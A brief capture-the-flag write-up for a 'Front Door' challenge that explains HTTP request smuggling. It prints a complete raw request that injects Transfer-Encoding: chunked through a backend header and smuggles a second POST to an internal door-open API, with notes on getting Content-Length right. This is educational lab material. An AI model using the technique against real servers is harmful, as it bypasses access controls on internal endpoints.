






How to do HTTP smuggling/splitting
how to get multiple http request with one send
Adversary Quest Front Door Writeup Protective Penguin
Challenge:


TLDR:

```POST /api/status?door_id=2 HTTP/1.1
X-Backend-Info: {"Transfer-Encoding":"chunked","Content-Type":"application/x-www-form-urlencoded"}
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: f1337a40-4e8b-4db9-b7da-6cbb05a1dd6d
Host: 192.168.3.15:5000
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 308
Cookie: uid=75d7e5d8b0aa457eab13db9d6a3294af

door_id=2

POST /api/door/open?door_id=2 HTTP/1.1
Cookie: uid=75d7e5d8b0aa457eab13db9d6a3294af
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Host: 127.0.0.1:5001
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

door_id=2
```

You have to get the content-Length well
or you're screwed and the request will wait forever cuz you injected a chunked message

The door number 17 has the flag



First request to check for site health:


Second request to unlock the door:


Third request to get the flag is illustrated first.

The vulnerability is in the ability to set a header in the request that the front end does to the back-end




The /api/status call is vulnerable as you can set the Transfer-Encoding":"chunked flag and send a second request which will be sent by the first server. Using that we send a second request to the door open api
 